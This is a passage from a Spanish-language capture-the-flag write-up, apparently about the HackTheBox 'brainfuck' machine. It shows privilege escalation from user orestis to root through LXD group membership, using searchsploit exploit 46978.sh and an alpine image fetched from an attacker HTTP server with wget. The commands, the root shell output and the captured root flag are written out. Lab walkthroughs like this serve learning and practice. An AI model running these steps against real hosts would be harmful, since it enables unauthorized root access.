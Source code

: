 Mirando los grupos a los que pertenece el usuario orestis, veo que estoy en LXD

Puedo tratar de crear una montura dentro de un contenedor que traslade todos los archivos desde la raíz del sistema base, de forma que como dentro del contenedor me puedo conectar como root, también podré acceder a todos los recursos

```null
searchsploit -m linux/local/46978.sh
mv 46978.sh lxd_exploit.sh
```

En el exploit proporcionan la forma de descargar una imagen alpine para subirla a la máquina victima

```null
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
mv alpine-v3.17-x86_64-20230121_1747.tar.gz alpine.tar.gz
```

Comparto un servicio http con python para transferirla

```null
python3 -m http.server 80
```

Desde la máquina víctima descargo el exploit y la imagen

```null
wget http://10.10.16.6/lxd_exploit.sh
wget http://10.10.16.6/alpine.tar.gz
```

```null
orestis@brainfuck:/tmp$ chmod +x lxd_exploit.sh 
orestis@brainfuck:/tmp$ ./lxd_exploit.sh -f alpine.tar.gz 
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: 9f5a024c81f6453304b0a586b2542e87408f1ee0ff0eeb48de20de02c9d28310
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | 9f5a024c81f6 | no     | alpine v3.17 (20230121_17:47) | x86_64 | 3.59MB | Jan 21, 2023 at 5:53pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
~ # 
~ # cd /mnt/root
/mnt/root # cd root
/mnt/root/root # cd root
cat root.txt
6efc1a5dbb8904751ce6566a305bb8ef
```
